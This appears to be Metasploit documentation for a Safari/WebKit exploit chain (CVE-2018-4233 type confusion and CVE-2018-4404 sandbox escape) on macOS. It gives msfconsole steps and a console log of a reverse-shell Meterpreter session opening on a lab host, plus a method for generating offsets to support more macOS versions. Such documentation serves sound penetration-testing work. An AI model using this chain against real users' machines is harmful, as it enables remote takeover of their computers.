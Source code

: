## Vulnerable Application

This module exploits a type confusion bug in the Javascript Proxy object in
WebKit. Safari on OSX 10.13.3 and lower are affected. The JS Proxy object
was introduced in Safari 10, so OSX 10.11 is not affected by the type
confusion, however the sandbox escape may still work.

The DFG JIT does not take into account that, through the use of a Proxy,
it is possible to run arbitrary JS code during the execution of a CreateThis
operation. This makes it possible to change the structure of e.g. an argument
without causing a bailout, leading to a type confusion (CVE-2018-4233).

The JIT region is then replaced with shellcode which loads the second stage.
The second stage exploits a logic error in libxpc, which uses command execution
via the launchd's "spawn_via_launchd" API (CVE-2018-4404).

## Verification Steps

1. Start `msfconsole`
1. `use exploit/osx/browser/safari_proxy_object_type_confusion`
1. `set LHOST <tab>`
1. `exploit`
1. Visit the URL on a vulnerable version of Safari

## Scenarios

### High Sierra 10.13

```
msf5 > use exploit/osx/browser/safari_proxy_object_type_confusion
msf5 exploit(osx/browser/safari_proxy_object_type_confusion) > set LHOST 192.168.0.2
LHOST => 192.168.0.2
msf5 exploit(osx/browser/safari_proxy_object_type_confusion) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf5 exploit(osx/browser/safari_proxy_object_type_confusion) >
[*] Started reverse TCP handler on 192.168.0.2:4444
[*] Using URL: http://0.0.0.0:8080/0PiuTy
[*] Local IP: http://192.168.0.2:8080/0PiuTy
[*] Server started.

msf5 exploit(osx/browser/safari_proxy_object_type_confusion) >
[*] 192.168.0.2   safari_proxy_object_type_confusion - Request from Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13) AppleWebKit/604.1.38 (KHTML, like Gecko) Version/11.0 Safari/604.1.38
[*] Sending stage (53508 bytes) to 192.168.0.2
[*] Meterpreter session 1 opened (192.168.0.2:4444 -> 192.168.0.2:33200) at 2018-11-20 16:28:59 +0800

msf5 exploit(osx/browser/safari_proxy_object_type_confusion) > sessions 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer     : Users-iMac.local
OS           : Darwin 17.0.0 Darwin Kernel Version 17.0.0: Thu Aug 24 21:48:19 PDT 2017; root:xnu-4570.1.46~2/RELEASE_X86_64
Architecture : x64
Meterpreter  : python/osx
```

### Adding offsets for new versions

Although all macOS versions from 10.12 -> 10.13.3 are vulnerable, some versions
are not supported. It's easy to add support for a vulnerable version by running
the script `external/source/exploits/CVE-2018-4404/gen_offsets.rb` on the
target version.

You will need to install the latest radare2 for the script to function.

```
$ git clone https://github.com/radare/radare2 && cd radare2 && ./sys/install.sh && cd ..`
$ ruby external/source/exploits/CVE-2018-4404/gen_offsets.rb
      '10.13' => {
        :dyld_stub_loader => '0x000012a8',
        :dlopen => '0x00002e60',
        :confstr => '0x000024fc',
        :strlen => '0x00001440',
        :strlen_got => '0xee8',
      },
```

The offset `:jsc_vtab` cannot be generated but you can guess it is either 0xe000 or 0xd000.
You can then add the offsets to the module:
`modules/exploits/osx/browser/safari_proxy_object_type_confusion.rb`

Please don't forget to contribute the offsets back to the framework if you have
successfully tested them.

